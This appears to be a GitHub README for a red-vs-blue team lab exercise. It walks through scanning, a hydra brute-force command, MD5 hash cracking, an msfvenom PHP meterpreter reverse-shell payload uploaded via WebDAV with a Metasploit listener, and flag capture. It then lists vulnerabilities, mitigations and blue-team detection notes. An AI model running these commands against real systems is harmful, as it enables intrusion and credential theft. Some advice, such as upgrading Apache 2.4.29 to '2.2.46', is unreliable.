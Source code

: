 # Red-vs-Blue-team-project
![image](https://user-images.githubusercontent.com/93951164/172183135-bcba72f9-8218-4347-b0a1-b3357e42fb22.png)

![image](https://user-images.githubusercontent.com/93951164/172183197-81b84eb1-97b2-47d5-a579-1c5c00751794.png)

Red Team Environment


Blue Team Environment

RED TEAM - Penetration Test
EXPLOITATION
Discover target IP:
To discover the target ip:
netdiscover -r <ip subnet>
 


IP
Machine
192.168.1.1
Gateway IP, Hyper-V
192.168.1.100
ELK server
192.168.1.105
Capstone, target machine

Service and version scan:
nmap -sV -v 192.168.1.105
 
Port
Service
Version
Port 22
SSH
OpenSSH 7.6p1
Port 80
HTTP
Apache httpd 2.4.29



Aggressive scan:
nmap -A -vvv 192.168.1.105
 
A simple aggressive scan reveals a web server directory structure on tcp port 80, which is a http port, and two potential usernames of employees – ashton and hannah (which will be more relevant for brute forcing later):


Navigating the Webserver:
As this is a webserver, we can investigate further from a browser in the attacker machine:

In a text document the blog directory we can see a 3rd potential username – Ryan, who would potentially have the highest level access as CEO:

In the company folders directory, we can see reference to a "secret_folder" in ALL documents within this directory, which is now a target for this Penetration Test.

The meet_our_team folder confirms the three potential users, and each document references the secret_folder:

As we can see below, we will need Ashton's password to gain access to the secure hidden folder.

Vulnerability scan:
nmap -A --script=vuln -vvv 192.168.1.105
 
Returning to scanning for further recon.
Aggressive scan with a vulnerability script reveals:
Webdav vulnerability
SQL Injection vulnerability across all directories on the webserver
CVE-2017-15710 – Apache httpd vulnerability




Bruteforce:
Now that we have some usernames and a main target - Ashton, using hydra we can attempt to bruteforce the login for the secret_folder.
Ashton, the CEO, had a common password within our password list. Using the following command, we could get Ashton's password.
hydra -l ashton -P /opt/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get "/company_folders/secret_folder"
 

SSH:
ssh ashton@192.168.1.105
 
Using Ashton's credentials we could gain ssh entry into the server.


Flag 1
In the root home directory we could pickup a flag.

Using the same credentials, we could access the protected hidden folder.

Password hash:
Within this folder was a document with instructions to connect to a corp_server. Included in the document are Ryan's hashed credentials and reference to a webdav directory


Th hashed md5 password was instantly cracked using Crackstation, revealing the password linux4u

Webdav:
We could then login to webdav using Ryan's credentials.


Reverse Shell:
Msfvenom
The next task was to upload a shell script to webdav, in order to create a reverse shell.
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php
 
Using msfvenom we created a payload – shell.php

Cadaver
cadaver http://192.168.1.105/webdav
 
Using cadaver and Ryan's credentials we accessed webdav, and uploaded the payload to the webdav directory.


Metasploit
msfconsole
use multi/handler
 
Once the payload was successfully uploaded, in order to create the reverse shell, we setup a listener using Metasploit.

After loading the exploit and activating the shell.php we uploaded earlier by clicking on it on the webserver, the target server connected to our listener and launched a meterpreter session into their system.

Gaining Interactive Shell:
python -c 'import pty; pty.spawn("/bin/bash")'
 

Finding Flag 2:
The next flag was located in the root directory.

Exit back to meterpreter.


Exfiltration:
The file was easily exfiltrated back to the attacker machine.


Vulnerabilities
Webserver
1. Directory listing vulnerability. Webserver directories are open to the public and navigable in a browser.
CWE-548: Exposure of Information Through Directory Listing
https://cwe.mitre.org/data/definitions/548.html
Attackers can gather a lot of information from open directories. They can use this information and access to launch attacks and upload malicious content. These directories may also be vulnerable to path traversal in which users can navigate across to sensitive regions of the system.
Disable the ability to view directories in the browser, and disable access/password protect all directories to avoid path traversal. Sanitise input to avoid malicious SQL statements.
2. SQL Injection. Nmap revealed a possible vulnerability to SQL injection to the directories in the webserver.
This can allow attackers to enter malicious code and gain access or launch attacks.
Sanitise inputs.
3. Documents with usernames in plain text are available to the public in the webserver
CWE-312: Cleartext Storage of Sensitive Information
https://cwe.mitre.org/data/definitions/312.html
CWE-256: Unprotected Storage of Credentials
https://cwe.mitre.org/data/definitions/256.html
Attackers can use this information in bruteforce attacks. Even just one name can lead to a system breach.
Users should not be using their own names as usernames. User names should not be published anywhere, especially not a webserver.
4. Documents in the webserver give direct reference to a hidden directory with sensitive data.
These are breadcrumbs that attackers will follow, with a direct reference to a hidden directory attackers can focus attacks to access the contents of the directory.
Do not reference sensitive directories in publicly available documents. If it is necessary to mention it, then encrypt and password protect.
5. Webdav is enabled and allows uploading of malicious script.
CWE-434: Unrestricted Upload of File with Dangerous Type
https://cwe.mitre.org/data/definitions/434.html
It is easy to create a shell in the target system using a reverse shell, by opening a meterpreter session
Disable webdav
6. Missing encryption of sensitive data.
CWE-311: Missing Encryption of Sensitive Data
https://cwe.mitre.org/data/definitions/311.html
7. CWE-522: Insufficiently Protected Credentials
Users and Passwords
1. Usernames are employee first names.
These are too obvious and most likely discoverable through Google Dorking. All are high level employees of the company which are more vulnerable, and certainly easier to find in the company structure in publicly available material.
Attackers can (with very little investigation) create a wordlist of usernames of employees for bruteforcing.
Usernames should not include the person's name.
2. Ryan's password hash was printed into a document, publicly available on the webserver.
The password hash is highly confidential and vulnerable once an attacker can access it.
CWE-256: Unprotected Storage of Credentials
https://cwe.mitre.org/data/definitions/256.html
A password hash is one of the highest targets for an attacker that is trying to gain entry; being able to navigate to one in a browser through minimal effort is a critical vulnerability.
Password hashes should remain in the /etc/shadow directory with root only access in the system, and not be published or copied anywhere.
3. CWE-759: Use of a One-Way Hash without a Salt.
https://cwe.mitre.org/data/definitions/759.html
CWE-916: Use of Password Hash With Insufficient Computational Effort
https://cwe.mitre.org/data/definitions/916.html
Ryan's password is only hashed, but not salted. A password hash can be run through apps to crack the password, however a salted hash will be almost impossible to crack.
A simple hash can be cracked with tools in linux or through websites, in this case it took seconds to crack Ryan's hash.
Salt hashes.
4. CWE-521: Weak Password Requirements.
https://cwe.mitre.org/data/definitions/521.html
Passwords need to have a minimum requirement of password length and use of mixed characters and case.
linux4u is a simple phrase with very common word substitution – 4=for, u=you. and leopoldo is a common name that could easily be bruteforced with a common password list.
Require strong passwords that exclude phrases and names, minimum 8 characters, mixed characters that include a combination of lower case, upper case, special characters and numbers.
Consider implementing multi-factor authentication.
Apache 2.4.29
1. CVE-2017-15710
This potential Apache httpd vulnerability was picked up by nmap and relates to a configuration that verifies user credentials; a particular header value is searched for and if it is not present in the charset conversion table, it reverts to a fallback of 2 characters (eg. en-US becomes en). While this risk is unlikely, if there is a header value of less than 2 characters, the system may crash.
This vulnerability has the potential to force a Denial of Service attack.
As this vulnerability applies to a range of Apache httpd versions from 2.0.23 to 2.4.29, upgrading to the latest version 2.2.46 may mitigate this risk.
2. CVE-2018-1312
While this vulnerability wasn't picked up in any scans, the apache version remains vulnerable. From cve-mitre "When generating an HTTP Digest authentication challenge, the nonce sent to prevent reply attacks was not correctly generated using a pseudo-random seed. In a cluster of servers using a common Digest authentication configuration, HTTP requests could be replayed across servers by an attacker without detection."
With this vulnerability, an attacker would be able to replay HTTP requests across a cluster of servers (that are using a common Digest authentication configuration), whilst avoiding detection.
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
3. CVE-2017-1283
Mod_session is configured to forward its session data to CGI applications
With this vulnerability, a remote user may influence their content by using a "Session" header.
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
4. CVE-2017-15715
This vulnerability relates to malicious filenames, in which the end of filenames can be matched/replaced with '$'
In systems where file uploads are externally blocked, this vulnerability can be exploited to upload malicious files
Apache httpd versions 2.2.0 to 2.4.29 are vulnerable - upgrade to 2.2.46
 
Identifying the port scan:
Filtering for Nmap:


Monitoring requests to the " _ secret_folder _ ":



Filtering for the Hydra brute force attack:
There were 346,595 bruteforce attempts made with Hydra.


Finding the WebDAV connection:
A reverse shell in webdav was used 20 times.



 
